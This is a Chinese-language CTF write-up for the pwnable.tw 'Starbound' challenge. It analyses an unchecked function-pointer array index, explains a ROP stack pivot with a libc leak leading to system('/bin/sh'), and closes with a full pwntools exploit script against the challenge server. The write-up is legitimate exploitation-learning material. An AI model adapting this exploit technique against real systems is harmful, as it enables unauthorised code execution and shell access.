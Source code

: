 ```yaml
---
layout: post
title: pwnable.tw Starbound
date: 2023-10-13 14:59:14
tags: pwnable.tw
---
```


本题 neta 了星界边境，实现了一个简单的二维探索游戏。

```sh
[*] '/mnt/c/Projects/ctf_archive/[pwnable.tw]Starbound/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8047000)
    FORTIFY:  Enabled
```

## 漏洞分析

数组下标未检查导致的任意控制流劫持。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char nptr[256]; // [esp+10h] [ebp-104h] BYREF

  init();
  while ( 1 )
  {
    alarm(0x3Cu);
    menu_func_ptr();
    if ( !readn(nptr, 256u) )
      break;
    v3 = strtol(nptr, 0, 10);
    if ( !v3 )
      break;
    ((void (*)(void))func_ptrs[v3])();          // 数组index溢出！
  }
  do_bye();
  return 0;
}
```

在 main 函数中，有一个对于函数指针数组的调用，index 数据来自于用户输入经 strtol 转化成的数字。我们可以用 `cmd_set_name` 函数修改 data 段的数据，再让程序 call 我们控制的地址，达成 arbitary call。

### 利用

### ROP 方法

有了任意调用，程序又没有开 PIE，接下来就是看看程序本体有哪些东西可以给我们来调用。
我在本体中，并没有找到 win 相关的函数，也没有找到导入的 system 符号，因此似乎没有简单的 ret2text 方法来完成一击必杀。

那就来打个 ROP 吧，我们可以直接用 main 函数 buffer 来存放 ROP 链，只要找一个类似于 `add esp, xxx; ret;` 的 gadget 即可。

使用这种方法，我们可以先用 `puts` 泄露 libc 基址，然后就能 `system("/bin/sh")` 了。具体利用见完整 EXP。
查 libc 版本用的是 [libc-database](https://libc.rip/)，俄罗斯那个（[libc.blukat.me](https://libc.blukat.me/)）查到的结果贼少，不知道为什么。

### 路径穿越方法（存在利用条件限制）

ROP 方法是我不小心从网上看到的，唉我不应该上网查的。
不过我自己也想出了一个非常绝妙的利用，不需要用到 ROP！

我们已有的任意调用，其参数是固定好的，第一个参数是一个我们可控的字符串指针，第二个参数是 0。顺着这个思路，我们可以先看看程序本体中有哪些函数，其第一个参数是 `char*` 类型的。

首先，此类函数肯定是 printf 最常见也最好利用，我们可以用这种方法将任意调用宽展成任意读写，但程序开启了 FORTIFY 保护，里面甚至只有 `_printf_chk` 函数没有 `printf` 函数。两者的区别在于，后者其实是前者的一个 wrapper。
前者的第一个参数是一个安全等级，1 表示开启，0 表示关闭。当开启时，格式化字符串攻击将会被大大削弱，比如不能直接使用 `%n$d` 了，如果要用到这玩意，必须前面要有 `%1$d` `%2$d` ... `%(n-1)$d` 这些。
因此，这条路走不通。

但我们就可以找到另外两个首个参数的—— `mkdir` 和 `open`。既然有 open，就可以想想是不是能 orw 把 flag 读出来。但是，程序的漏洞处，相邻的两次触发之间隔了许多个函数调用，这就不允许我们把 open 返回值暂时放在寄存器中，这里就很难进行下一步操作。

但是，我把整个 binary 都审了一边，发现了一个有趣的机制：

```c
int cmd_multiplayer_enable()
{
  __pid_t v0; // esi
  socklen_t len; // [esp+2Ch] [ebp-80h] BYREF
  struct sockaddr addr; // [esp+32h] [ebp-7Ah] BYREF

  if ( fd != -1 )
    close(fd);
  addr.sa_family = 1;
  fd = socket(1, 2, 0);                         // UDP
  if ( fd >= 0 )
  {
    ...
  }
  puts("[Error] Fail to enable");
  return close(fd);
}
```

在 `cmd_multiplayer_enable` 中，有对于一个全局变量 `fd` 的赋值。而我们知道，进程打开的第一个文件往往是接在 `stderr` 的后面，也就是 fd == 3。
我们可以观察到，程序在使用 close 关闭 fd 之后，并没有清空 fd 的值，也就是这里依然是 3。实际调用这个函数，发现程序肯定可以走到关闭 fd 的代码。

我们查找 fd 的应用，可以找到这里：

```c
int cmd_multiplayer_recvmap()
{
  ...
  
  v5 = getpid();
  puts("Ask your friends to share their coordinates!");
  v0 = 1;
  while ( 1 )
  {
    if ( read(fd, buf, 1u) <= 0 )
      return puts("[Error] Transmission error :(");
    if ( buf[0] == '\n' )
      break;
    buf[0] = rotate_shift_add_decrypt(buf[0], &v5);
    if ( v0 )
    {
      __printf_chk(1, "[Info] Receiving (");
      v0 = 0;
    }
    putchar(buf[0]);
  }
  
  ...
}
```

这里程序将会尝试从 fd 中读取内容，每一个字节都使用 `rotate_shift_add_decrypt` 函数进行加密，然后打印出结果。

于是我们可以想到一条利用链：

1. 调用 `cmd_multiplayer_enable`，让 fd 被置为 3；
2. 调用 `open` 函数打开 flag；
3. 调用 `rotate_shift_add_decrypt`，读取加密后的 flag 并输出；
4. 本地尝试暴力破解！

但我们会遇到一个问题：虽然我们可以控制第一个参数这个字符串，但是其开头被限制了是一个数字，因为我们就是用这个数字当作数组下标来实现任意调用的。
为此，我想到了一种借用 `mkdir` 来加强 `open` 的方法：

1. 调用 `mkdir("-33\0")` 在当前目录创建名为 -33 的文件夹；
2. 调用 `open("-33/../flag\0")` 打开任意目录下的 flag。

在本地，这种方法是可行的。然而，远程环境中执行 binary 的路径是根目录，而进程并没有在根目录创建文件夹的权限，因此这种方法很遗憾地失效了 : (

## 完整EXP

```python
#!/usr/bin/python3
from pwn import *
context.arch = 'i386'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

filename = "./pwn"
io = process([filename])
io = remote("chall.pwnable.tw", 10202)
elf = ELF(filename)

def debug():
    g = gdb.attach(io, """
        b *0x0804A65D
    """)

def pwn():
    # 0x08048e48 : add esp, 0x1c ; ret
    add_esp_1c_ret = 0x08048e48

    payload = flat([
        elf.symbols['puts'], elf.symbols['_start'], elf.got['puts'],
    ])

    io.sendlineafter(b">", b"6")
    io.sendlineafter(b">", b"2")
    io.sendlineafter(b"name", pack(add_esp_1c_ret))
    io.sendafter(b">", b"-33\0dead"+payload)

    mes = io.recvuntil(b"\xf7")[-4:]

    libc_base = unpack(mes,32) - 0x5fca0
    log.info("libc_base: " + hex(libc_base))
    system_addr = libc_base + 0x3ada0
    # system_addr = libc_base + 0x49670 # printf

    payload = flat([
        system_addr, elf.symbols['_start'], 0x080580D0+0x4,
    ])

    io.sendlineafter(b">", b"6")
    io.sendlineafter(b">", b"2")
    io.sendlineafter(b"name", pack(add_esp_1c_ret)+b"/bin/sh\0")
    io.sendafter(b">", b"-33\0dead"+payload)

    io.interactive()

if __name__ == "__main__":
    pwn()

```

## 反思和总结

**函数数组和数组下标都是非常危险的东西——前者容易被劫持，后者容易超越边界。**
本漏洞修补十分简单，只需要加上一个检查就可以了。

从这道题目的利用中，我们可以发现：**任意调用与 gadget 结合或许可以轻松达成栈迁移，允许我们进行 ROP 攻击。**
